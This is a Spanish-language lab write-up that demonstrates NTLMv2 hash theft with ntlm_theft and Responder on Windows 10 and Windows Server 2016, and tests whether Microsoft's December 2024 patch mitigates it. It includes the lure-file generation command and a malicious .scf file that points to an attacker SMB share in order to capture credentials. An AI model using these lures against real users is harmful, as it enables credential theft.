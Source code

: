 # NTLM Hashes

**Objetivo del Laboratorio**

Demostrar de manera práctica el funcionamiento del robo de hashes NTLMv2, mediante el uso de archivos modificados. Además, evaluaremos la efectividad del parche de seguridad lanzado por Microsoft en diciembre de 2024 (liberado en el "martes de parches") para mitigar esta vulnerabilidad. Posteriormente, verificaremos si la brecha de seguridad persiste o si ha sido corregida tras aplicar el parche.

El laboratorio inicialmente va a ser el siguiente: 

![image.png](image.png)

Vamos a estar utilizando las siguientes herramientas

**Responder:** Esta herramienta permite interceptar y manipular solicitudes de autenticación en redes Windows, simulando un servidor malicioso para multiples servicios, en este caso particular, servirá para capturar hashes NTLMv2 que la máquina víctima enviará

[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

**Ntlm_theft:** Un script diseñado para generar archivos especialmente modificados que, al ser abiertos o utilizados, envían las credenciales NTLM del usuario al atacante.

[https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

El uso básico de NTLM_Theft es el siguiente: `python3 ntlm_theft.py -g modern -s 192.168.1.11 -f Important`

![image.png](image%201.png)

Estos son los archivos que nos genera el script

```bash
❯ ls
 Important-(externalcell).xlsx   Important-(icon).url             
 Important-(stylesheet).xml      Important.asx   
 Important.lnk                   Important.rtf
 Important-(frameset).docx       Important-(includepicture).docx  
 Important-(url).url             Important.htm   
 Important.m3u                   Important.wax
 Important-(fulldocx).xml        Important-(remotetemplate).docx  
 Important.application           Important.jnlp  
 Important.pdf   
```

Vamos a compartir algunos de estos archivos con nuestra máquina víctima.

En este caso, por motivos prácticos, nos enfocaremos en el archivo Excel. Luego, iniciaremos **Responder** en la máquina atacante para que simule ser un servidor SMB. Esto permitirá que, al habilitar la edición del archivo en la máquina víctima, se intente una autenticación automática.

![image.png](image%202.png)

![image.png](image%203.png)

![image.png](image%204.png)

![image.png](image%205.png)

Vamos a aplicar el parche más reciente liberado por Microsoft para Windows 10.

![image.png](image%206.png)

Una vez aplicado el parche, ejecutamos nuevamente el archivo Excel y observamos que la vulnerabilidad persiste.

![image.png](image%207.png)

## Windows Server 2016

![image.png](image%208.png)

Para probar el comportamiento de un tipo de archivo que no requiere ser abierto para explotar la vulnerabilidad, necesitamos utilizar un sistema operativo más antiguo. En este caso, optamos por un Windows Server 2016.

La estructura del archivo malicioso es la siguiente. Cabe destacar que el intento de obtener el recurso del servidor SMB, configurado previamente con Responder, ocurre en el momento en que el sistema carga la imagen o el icono asociado al archivo.

```
[Shell]
Command=2
IconFile=\\192.168.1.11\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

Aquí podemos observar que Windows Server ya se encuentra conectado a nuestra red.

![image.png](image%209.png)

Solo basta con ingresar a la ruta donde se almacena el archivo, para luego capturar los hashes correspondientes.

![image.png](image%2010.png)

![image.png](image%2011.png)

Vemos que actualmente no cuenta con los últimos parches

![image.png](image%2012.png)

Vamos al catalogo de Microsoft Update, para descargar e instalarlo manualmente.

![image.png](image%2013.png)

Sin embargo, para nuestra sorpresa, vemos que no se pudo parchar el bajo el KB → (KB5048671)

![image.png](image%2014.png)

**Conclusión del Laboratorio**:

Este laboratorio demostró la eficacia del robo de hashes NTLM utilizando archivos modificados, incluso tras la aplicación del parche de seguridad lanzado por Microsoft en diciembre de 2024. En el caso de **Windows 10**, aunque el parche fue correctamente instalado, se continuó capturando hashes NTLM simplemente abriendo archivos modificados, como documentos Excel o cualquier otro proporcionado por herramientas específicas como ntlm_theft. Esto resalta una posible persistencia de la vulnerabilidad en entornos donde la interacción con archivos específicos es suficiente para desencadenar el robo de hashes.

En cuanto a **Windows Server 2016**, se observó que, no es necesario siquiera abrir el archivo, y a pesar de intentar instalar manualmente el parche de seguridad, este no fue aplicable al equipo. Esto indica una limitación significativa, donde ciertos sistemas operativos, como Windows Server 2016, puedan quedar fuera de la cobertura de las últimas mitigaciones de seguridad (En el entorno).